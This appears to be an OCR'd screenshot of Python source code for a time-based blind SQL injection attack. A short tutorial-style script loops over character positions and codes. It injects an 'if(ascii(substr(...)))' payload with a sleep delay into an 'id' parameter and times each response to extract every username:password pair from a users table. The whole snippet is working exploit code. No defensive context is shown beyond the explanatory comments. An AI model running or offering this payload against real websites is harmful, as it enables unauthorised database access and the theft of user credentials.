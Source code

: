 ```python
    for position in range(1, 50):
        for character in range(33, 126):
            # We will do this with an existing id, in this case '1', the we will delay 0.35 seconds
            sqli_url = main_url + "?id=1 and if(ascii(substr((select group_concat(username,0x3a,password) from users),%d,1))=%d,sleep(0.35),1)" % (position, character)

            # We can get more complex results. In this case we will retrieve all username:password in users
            # sqli_url = main_url + "?id=1 and if(ascii(substr(database(),%d,1))=%d,sleep(0.35),1)" % (position, character)

            p1.status(sqli_url)
  
            # Init chrono
            time_start = time.time()
  
            r = requests.get(sqli_url)

            # End chrono
            time_end = time.time()

            if time_end - time_start > 0.35:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':
    makeSQLI()
```